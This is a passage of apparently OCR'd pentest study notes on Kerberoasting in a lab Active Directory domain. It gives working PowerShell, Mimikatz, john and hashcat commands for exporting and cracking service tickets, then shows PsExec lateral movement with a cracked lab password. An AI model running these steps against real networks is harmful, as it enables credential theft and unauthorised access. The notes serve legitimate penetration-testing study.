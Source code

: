 > **Note:**
> If you can't crack it using John use hashcat following [Rubeus section](#rubeus).

Once the [ticket requested from the SPN is cracked](https://gist.github.com/A-Pisani/a79808e058ccc49bcf71921a05d51f80#cracking-tgs) we get a username and password:
```
PS C:\Users\offsec.CORP> .\PsExec64.exe \\client01 -u offsec\Allison -p RockYou! cmd.exe
```

- References: 
  - https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#kerberoast
#### Old technique
1. Requesting a service ticket
    ```pwsh
    PS C:\Users\offsec.CORP> Add-Type -AssemblyName System.IdentityModel
    PS C:\Users\offsec.CORP> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'
    ```
After execution, the requested service ticket should be generated by the domain controller and loaded into the memory of the Windows 10 client. 

2. Instead of executing Mimikatz all the time, we can also use the built-in **`klist`** command to display all cached Kerberos tickets for the current user:
    ```pwsh
    PS C:\Users\offsec.CORP> klist
    ...
    #1>	Client: Offsec @ CORP.COM
      Server: HTTP/CorpWebServer.corp.com @ CORP.COM
      KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
    ```
3. With the service ticket for the Internet Information Services service principal name created and saved to memory , we can download it from memory.
    ```cmd
    mimikatz # kerberos::list /export
    ...
    [00000001] - 0x00000017 - rc4_hmac_nt
    ...
       \* Saved to file     : 1-40a50000-offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
    ```
According to the Kerberos protocol, the service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing (in a technique known as Kerberoasting), we will know the password hash, and from that we can crack the clear text password of the service account. As an added bonus, we do not need administrative privileges for this attack.

4. Cracking the service ticket  
    4.1 Using `kerberoas` and `tgsrepcrack.py`
    ```sh
    kali@kali:~$ sudo apt update && sudo apt install kerberoast
    kali@kali:~$ python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi 
    ```
    4.2 Using `kirbi2john` and `john` \ `hashcat`
    ```sh
    kali@kali:~$ kirbi2john 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi > kirbi2j
    kali@kali:~$ john -w=/usr/share/wordlists/rockyou.txt --format=krb5tgs kirbi2j 
    ```
    Note: if `kirbi2john` doesn't generate an output do `sudo apt --only-upgrade install john kerberoast`.


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname